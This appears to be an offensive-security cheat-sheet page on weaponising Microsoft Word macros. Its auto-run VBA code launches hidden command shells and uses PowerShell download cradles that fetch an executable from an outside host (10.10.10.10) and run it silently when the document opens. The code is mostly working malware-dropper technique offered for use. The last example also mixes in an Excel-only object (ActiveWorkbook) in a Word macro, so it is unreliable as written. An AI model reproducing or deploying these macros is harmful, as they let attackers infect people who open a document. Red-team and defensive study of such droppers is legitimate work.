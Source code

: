 # Word

In order for any of the code below to execute, the user has to "Enable Content" for Macros to run and disable Protected View after opening the malicious document. This needs to be done for any new document that is opened. In addition, this will only work in Macro-Enabled formats such as .doc (Word 97-2003 Document) or .docm, whereas newer formats such as .docx will not store macros.

## VBA Application Launcher

We can launch applications outside of VBA with the "Shell" function. The function takes two arguments, first, the application to launch, and second, the "WindowStyle" of the launched application. We can use the "vbHide" or "0" value to launch a hidden application. Note, the application may not open in a window, however, it is visible as a child process with any process viewer/explorer utility such as procexp/64 from sysinternals.

```vba
Sub Document_Open()
    macro1
End Sub

Sub AutoOpen()
    macro1
End Sub

Sub macro1()
    Dim str As String
    str = "cmd.exe"
    Shell str, vbHide
End Sub
```

## VBA WSH Application Launcher

We can use the Windows Script Host (WSH) to launch an application outside of VBA. The code below opens a windows command prompt when the macro runs.

{% hint style="info" %}
Closing the Word document does not close the command prompt window. When the macro runs, a child process is created for the command prompt. After closing the Word document, the parent process appears to be closed, when viewing in task manager or procexp, however both the parent and the child process remains.
{% endhint %}

```vba
Sub Document_Open()
    macro1
End Sub

Sub AutoOpen()
    macro1
End Sub

Sub macro1()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 1
End Sub
```



## VBA PowerShell Download Cradle

The code below will run the PowerShell command in a hidden PowerShell window, download the file and save it without any prompts to the user.

If an output path isn't specified, PowerShell will attempt to save the downloaded file in the same location as the Word document.

```vba
Sub Document_Open()
    macro1
End Sub

Sub AutoOpen()
    macro1
End Sub

Sub macro1()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/winout64.exe', 'winsysx64.exe')"
    Shell str, 0
End Sub
```

## VBA PowerShell Download Cradle and Code Execution

When this macro runs, the code will download the payload, get the current path of the excel document, which is where the downloaded file will be saved by default, wait 5 seconds, and launch the payload, all without user interaction.

Word does not have a sleep or equivalent function or subroutine in VBA, and so the "Wait" subroutine is useful as it allows us to ensure that the file is completely downloaded before we attempt to execute it.

The "Wait" subroutine contains a "Do" loop, which, on each loop iteration, first calls the "DoEvents" function, which passes control to the operating system to process any events in its queue, before passing control back to Word. This is done to avoid causing issues with the system such as freezes or crashes.

The current date and time is obtained via a call to the "Now" function, which is used in the "Loop Until" statement. The loop will run until the current time is greater than the time returned by the "DateAdd" function. This function takes three arguments: a string expression that represents the interval of time ("s"), the number of seconds to wait (n), and the current time (t). Simply stated, "n" seconds are added to the time the loops starts and the result is compared to the current time. Once "n" seconds have passed, the loop completes.

```vba
Sub Document_Open()
    macro1
End Sub

Sub AutoOpen()
    macro1
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub

Sub macro1()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/out.exe', 'winintx64.exe')"
    Shell str, vbHide
    Dim binaryPath As String
    binaryPath = Application.ActiveWorkbook.Path + "\winintx64.exe"
    Wait (5)
    Shell binaryPath, vbHide

End Sub
```







